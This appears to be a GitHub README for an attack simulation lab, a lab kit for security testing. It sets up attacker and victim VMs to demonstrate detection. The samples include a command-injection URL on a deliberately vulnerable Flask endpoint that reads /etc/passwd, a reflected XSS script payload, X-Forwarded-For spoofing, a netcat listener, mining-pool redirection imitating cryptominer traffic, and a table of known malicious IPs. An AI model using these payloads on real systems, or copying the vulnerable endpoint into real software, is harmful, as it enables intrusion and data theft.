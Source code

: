 # 🧪 Attack Simulation Lab

This demo simulates various types of attacks within your **own VPC environment**. It includes Remote Command Execution, Reflected XSS, IP Spoofing, and simulates known bad IP behavior. **For educational and demonstration purposes only.**

![image](https://github.com/user-attachments/assets/16d33c34-aa16-4880-8544-c2d1c8d113e6)


---

## 🛠️ Preparations

git clone https://github.com/svuillaume/demo_simulator

### 1. Launch Two VMs
- **Attacker VM**
- **Victim VM**

---

## 🧰 Attacker VM Setup

1. **Install Docker**

---

## 🎯 Victim VM Setup

1. **Install dependencies**
   ```bash
   sudo apt update
   sudo apt install python3 python3-pip -y
   pip3 install flask
   ```

2. **Set up the attack simulation script**
   ```bash
   chmod +x demo_simulator/lw_attack_sim.sh
   ```

3. **Update crypto pools in the script**  
   Use custom pool URLs:
   - `evil.v2.xmrig.com`
   - `donate.v2.xmrig.com`

4. **Edit `/etc/hosts` to redirect mining pools to attacker**
   ```plaintext
   127.0.0.1 localhost
   <Attacker-IP> donate.v2.xmrig.com
   ```

5. **Run the Flask application**
   ```bash
   python3 app.py
   ```

---

## ▶️ Running the Simulation

### On the Attacker VM (Open 2 Terminals or use screen)

sudo apt install screen    # Debian/Ubuntu
sudo yum install screen    # RHEL/CentOS


**Create a persistent socket listener on Terminal 1 or screen 1:**
```bash
nc -k -l 3333 &
```

**Run traffic simulation with k6 on Terminal 2 or screen 2:**
```bash
sudo docker run --rm -v $(pwd):/scripts grafana/k6 run /scripts/k6.js
```

---

### On the Victim VM

**Run the attack simulation script:**
```bash
./demo_simulator/lw_attack_sim.sh
```

---

## 🚀 HOWTO Use the Demo

> ⚠️ **IMPORTANT:** All tests must be run within your **own VPC lab environment**.

### 🔓 Remote Command Execution (RCE)

Submit OS commands via the vulnerable Flask app:

- [Run `cat /etc/passwd`](http://<victim_IP>:5000/cmd?exec=cat%20/etc/passwd)
- [Run `ls -la`](http://<victim_IP>:5000/cmd?exec=ls%20-la)

---

### 💬 Reflected XSS

Test for reflected XSS using the greet endpoint:

- [Greet](http://<victim_IP>:5000/greet)

**Example:**
```
http://<victim_IP>:5000/greet?name=<script>alert('GotYou :)')</script>
```

---

### 🌐 Client IP Logging

Test client IP extraction:

- [Client IP](http://<victim_IP>:5000/client-ip)

**Spoof IP via curl:**
```bash
curl -H "X-Forwarded-For: 1.2.3.4" http://<victim_IP>:5000/client-ip
```

---

## 🚨 Known Bad IPs for Simulation (Use with Caution)

| IP Address       | Description                                   |
|------------------|-----------------------------------------------|
| `45.227.253.55`  | Malware C2 - AbuseIPDB                        |
| `185.220.101.1`  | Tor exit node (flagged)                       |
| `1.3.3.7`        | Red team/meme IP                              |
| `222.186.30.50`  | Brute-force attacker (common honeypot source) |
| `89.248.167.131` | Blacklisted scanner (abuse reports)           |
| `23.129.64.50`   | Tor exit node - flagged in feeds              |

> ⚠️ **Do NOT scan or connect to these IPs from outside your VPC. Use only for simulation/logging tests.**

---

## ✅ You're now ready to simulate attacks!
Happy testing — use responsibly in isolated environments.

